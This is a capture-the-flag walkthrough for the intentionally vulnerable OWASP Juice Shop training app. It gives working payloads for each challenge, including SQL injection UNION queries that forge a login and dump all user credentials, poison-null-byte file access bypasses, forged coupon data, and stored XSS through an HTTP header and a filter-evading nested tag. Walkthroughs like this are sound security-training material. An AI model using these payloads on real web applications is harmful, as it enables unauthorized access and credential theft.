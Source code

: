 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Expired Coupon (Improper Input Validation)
_Successfully redeem an expired campaign coupon code._

The first step is to take a look how coupons work. You can always get a valid coupon on
[Juice shop Twitter](https://twitter.com/owasp_juiceshop).

There's a [coupon for 09/2020](https://twitter.com/owasp_juiceshop/status/1301392070532308992):
```
q:<IrfFb4l
```

Log in, add some items into the basket and make an order using the coupon. The important request is:
```
POST /rest/basket/1/checkout

{"couponData":"cTo8SXJmRmI0bC0xNjAxMTYxMjAwMDAw","orderDetails":{"paymentId":"4","addressId":"3","deliveryMethodId":"1"}}
```

Decode `couponData` (Base64):
```
q:<IrfFb4l-1601161200000
```

There's the coupon code (`q:<IrfFb4l`), and today's timestamp (`1601161200000`).

Now let's look for some expired coupons.
 
At first, I was looking for an older coupon on Twitter but that does not work!
The challenge description states: "redeem an expired **campaign** coupon code".

Searching for `campaign` in source code points to:
```
WMNSDY2019: {
    validOn: 15519996e5,
    discount: 75
},
WMNSDY2020: {validOn: 1583622e6, discount: 60},
WMNSDY2021: {validOn: 1615158e6, discount: 60},
WMNSDY2022: {validOn: 1646694e6, discount: 60},
WMNSDY2023: {validOn: 167823e7, discount: 60},
ORANGE2020: {validOn: 15885468e5, discount: 50},
ORANGE2021: {validOn: 16200828e5, discount: 40},
ORANGE2022: {validOn: 16516188e5, discount: 40},
ORANGE2023: {validOn: 16831548e5, discount: 40}
```

There's `WMNSDY2019` with valid on `15519996e5` --> `1551999600000` -> `Thursday 7. March 2019 23:00:00`.

Ok, let's try to use it in `couponData`. Encode `WMNSDY2019-1551999600000` with Base64:
```
V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw
```

Intercept the checkout request and modify the coupon data with `V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw`.

Bingo, the discount is yours!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## HTTP-Header XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> through an HTTP header._

The first step is to find a place where an HTTP header is reflected back to the user.

I was suspicious from the beginning about the _Last Login IP_ page (`/#/privacy-security/last-login-ip`). The IP address
is usually taken from HTTP header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).

Next step is to understand how this last login IP is set.
 
Grepping through [main-es2015.js](misc/main-es2015.js):
```
grep 'rest/' misc/main-es2015.js
```

One of the results points to:
```
saveLastLoginIp() {
    return this.http.get(this.hostServer + "/rest/saveLoginIp").pipe(Object(s.a)(t => t), Object(l.a)(t => {
        throw t
    }))
}
```

This method is called during `logout`.

Log in, log out and let's try to manipulate the HTTP headers.

First attempt is obvious:
```
X-Forwarded-For: 1.1.1.1
```

No luck! 

Don't despair, there are more ways how to [spoof an IP address](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address).

`True-Client-IP` is the correct one. Just add this header to `GET /rest/saveLoginIp` request:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

If you really want to trigger the XSS (not necessary to solve the challenge):
1. Log in
2. Log out (triggers `GET /rest/saveLoginIp`)
3. Replay `GET /rest/saveLoginIp` with the extra header
4. Log in and go to _Last Login IP_ page

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).